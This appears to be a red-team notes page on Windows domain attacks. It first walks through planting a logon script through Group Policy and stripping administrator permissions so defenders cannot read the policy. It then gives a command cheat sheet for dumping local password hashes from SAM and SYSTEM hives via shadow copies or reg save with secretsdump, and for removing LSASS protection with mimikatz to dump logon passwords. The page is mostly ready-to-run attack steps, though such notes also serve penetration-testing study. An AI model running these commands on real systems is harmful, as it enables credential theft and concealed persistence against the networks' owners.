 Let's get back to our Group Policy Management Editor:

    Under User Configuration, expand Policies->Windows Settings.
    Select Scripts (Logon/Logoff).
    Right-click on Logon->Properties
    Select the Scripts tab.
    Click Add->Browse.

Let's navigate to where we stored our Batch and binary files, Select your Batch file as the script and click Open and OK. Click Apply and OK.

Go back to your MMC windows, click on your policy and then click on Delegation:

By default, all administrators have the ability to edit GPOs. Let's remove these permissions:

    Right-Click on ENTERPRISE DOMAIN CONTROLLERS and select Edit settings, delete, modify security.
    Click on all other groups (except Authenticated Users) and click Remove.

Click on Advanced and remove the Created Owner from the permissions:

We could replace Authenticated Users with Domain Computers to ensure that computers can still read and apply the policy, but prevent any user from reading the policy.

    Click Add.
    Type Domain Computers, click Check Names and then OK.
    Select Read permissions and click OK.
    Click on Authenticated Users and click Remove.

Right after you perform these steps, you will get an error that you can no longer read your own policy:

# Credential harvesting

# Dump local hashes
## One way 
*cmd.exe prompt with administrator privileges*
`wmic shadowcopy call create Volume='C:\'`*wmic command to create a copy shadow of C: drive*
`vssadmin list shadows`*Listing the Available Shadow Volumes*
`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam`
`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system` *Copying the SAM and SYSTEM file from the Shadow Volume*
`python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam -system /tmp/system LOCAL`*Check the hashes* 

## The other way
`reg save HKLM\sam C:\users\Administrator\Desktop\sam`
`reg save HKLM\system C:\users\Administrator\Desktop\system`*Registry dump those*
`python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam -system /tmp/system LOCAL`

# Protected LSASS dump
`mimikatz # privilege::debug`
`mimikatz # !+`*Loading the mimidrv Driver into Memory*
`!processprotect /process:lsass.exe /remove`*Removing the LSA Protection*
`mimikatz # sekurlsa::logonpasswords`*Dump*
